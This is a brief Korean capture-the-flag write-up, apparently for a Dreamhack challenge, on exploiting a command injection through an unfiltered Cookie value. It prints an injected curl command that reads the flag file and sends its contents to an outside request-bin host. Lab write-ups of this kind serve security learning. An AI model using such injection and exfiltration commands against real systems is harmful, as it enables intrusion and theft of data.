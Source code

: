 ## 주요 개념

- Command Injection

## 풀이

소스 코드를 보면, 필터링 없이 문자열을 그대로 사용해 쉘 명령어를 입력할 수 있다는 취약점이 존재한다.  
해당 취약점을 이용해 Cookie 값을 다음과 같이 조작하면 flag를 얻어낼 수 있다.
[Dreamhack Tools](https://tools.dreamhack.games)의 Request Bin을 사용해 curl 요청을 받을 수 있다.

```
1 | curl -d $(cat ./flag) https://example.request.dreamhack.games/
```
